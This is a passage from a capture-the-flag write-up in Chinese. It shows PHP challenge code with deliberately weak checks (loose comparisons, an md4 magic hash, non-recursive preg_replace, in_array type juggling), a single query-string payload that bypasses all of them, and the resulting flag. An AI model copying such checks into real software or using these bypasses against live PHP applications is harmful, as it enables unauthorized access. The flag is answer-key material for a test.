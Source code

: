 ```php
        }
    }

    if(isset($_GET["param5"])) {
        $str5 = $_GET["param5"];
        if($str5 == 89 && $str5 !== '89' && $str5 !== 89 && strlen(trim($str5)) == 2) {
            echo FLAG4;
        }
    }

    if(isset($_GET["param6"])) {
        $str6 = $_GET["param6"];
        if(hash('md4', $str6) == 0) {
            echo FLAG5;
        }
    }

    if(isset($_GET["param7"])) {
        $str7 = $_GET["param7"];
        $var1 = 'helloworld';
        $var2 = preg_replace("/$var1/", '', $str7);
        if($var1 === $var2) {
            echo FLAG6;
        }
    }

    if(isset($_GET["param8"])) {
        $str8 = $_GET["param8"];
        $comp = range(1, 25);
        if(in_array($str8, $comp)) {
            if(preg_match("/\.env/", $str8)) {
                echo FLAG7;
            }
        }
    }
?>
```

简单php绕过

paylaod

```
?param1[]=1&param2[]=a&param3[]=b&param4=1200&param5=89%20&param6=20583002034&param7=hellohelloworldworld&param8=5.env
```

FLAG：p_ctf{ech0_1f_7h3_7r41n_d035_n07_5t0p_1n_y0ur_5t4t10n_7h3n_1t5_n07_y0ur_7r41n}



# Lost Flag
